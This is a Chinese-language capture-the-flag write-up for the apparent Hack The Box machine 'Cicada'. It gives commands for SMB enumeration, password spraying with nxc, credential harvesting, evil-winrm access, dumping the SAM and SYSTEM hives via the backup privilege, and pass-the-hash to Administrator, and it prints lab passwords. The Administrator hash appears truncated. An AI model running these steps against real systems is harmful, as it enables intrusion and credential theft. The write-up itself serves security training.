


# ✔️ Cicada

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA cicada 10.129.5.101 --open
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 根据Nmap的输出信息和开放端口，判断该机器应该是域控，先将域名添加进/hosts文件中：

<figure><figcaption></figcaption></figure>

* 尝试使用匿名登录SMB服务，获得了一些SMB共享目录：

<figure><figcaption></figcaption></figure>

* 依次枚举各个目录后，发现只有/HR目录可以进入，查看后发现一个名为Notice from HR.txt的文本文件，把它下载到本地：

```bash
smbclient \\\\10.129.5.101\\HR
dir
mget *
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 查看Notice from HR.txt文件内容得知是一封录用通知，里面包含了一个新入职员工用户的默认密码：<mark style="color:red;">**Cicada$M6Corpb\*@Lp#nZp!8**</mark>

<figure><figcaption></figcaption></figure>

* 使用enum4linux进行枚举，没什么收获：

```bash
enum4linux 10.129.5.101
```

<figure><figcaption></figcaption></figure>

* 此时已经获取到了一个有效密码，但是还没有有效用户名，使用nxc进行暴破得到一串用户名：

```bash
nxc smb 10.129.5.101 -u "guest" -p '' --rid-brute
```

<figure><figcaption></figcaption></figure>

* 把这些用户名复制下来保存为一个username.txt文件，先用kerbrute跑一下有8个有效用户名：

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.5.101 -d cicada.htb username.txt
```

<figure><figcaption></figcaption></figure>

### GET SHELL

* 然后再使用nxc和用户名列表，还有之前收集到的默认密码，进行暴破：

```bash
nxc smb 10.129.5.101 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 已获取到了一个有效凭证：<mark style="color:red;">**michael.wrightson :Cicada$M6Corpb\*@Lp#nZp!8**</mark>
* 通过用户michael查询目标系统上更多的用户信息，找到了用户david的密码：

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

<figure><figcaption></figcaption></figure>

* 此时又得到了一个新的有效凭证：`david.orelious ：aRt$Lp#7t*VQ!3`，利用该凭证登录share共享目录：

```bash
smbclient -L //10.10.11.35 -U 'david.orelious'
```

<figure><figcaption></figcaption></figure>

* 依次枚举各个目录，在\DEV目录中发现一个powershell脚本文件：**Backup\_script.ps1**

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
```

<figure><figcaption></figcaption></figure>

* 阅读该脚本发现另一个新的有效凭证：`emily.oscars ：Q!3@Lp#M6b*7t*Vt`

<figure><figcaption></figcaption></figure>

* 利用emily这个凭证使用evil-winrm进行登录，get shell：

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

<figure><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
upload winPEASx64.exe
```

<figure><figcaption></figcaption></figure>

* 同时可以简单的手动枚举一下，比如当前账户的权限有哪些：

```bash
whoami /priv
```

<figure><figcaption></figcaption></figure>

* 发现当前账户有备份操作的权限，这意味着可以利用该特权下载sam.hive文件和system.hive文件，从中提取Administrator的密码哈希，再利用它进行登录

### 漏洞利用

* 创建一个temp目录：

```bash
mkdir C:\temp
```

<figure><figcaption></figcaption></figure>

* 将目标系统的sam文件和system文件存到当前的temp目录中：

```bash
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><figcaption></figcaption></figure>

* 将这两个文件下载到Kali本地

### ROOT

* 使用这两个文件提取凭证：

```bash
pypykatz registry -sam sam.hive system.hive -o secrets.txt
```

<figure><figcaption></figcaption></figure>

* 获得Administrator的密码哈希：

<figure><figcaption></figcaption></figure>

* 利于获取到的哈希进行登录，获得admin权限的shell：

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H '87e7c93a3e8a0ea4a581937016f341'
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>




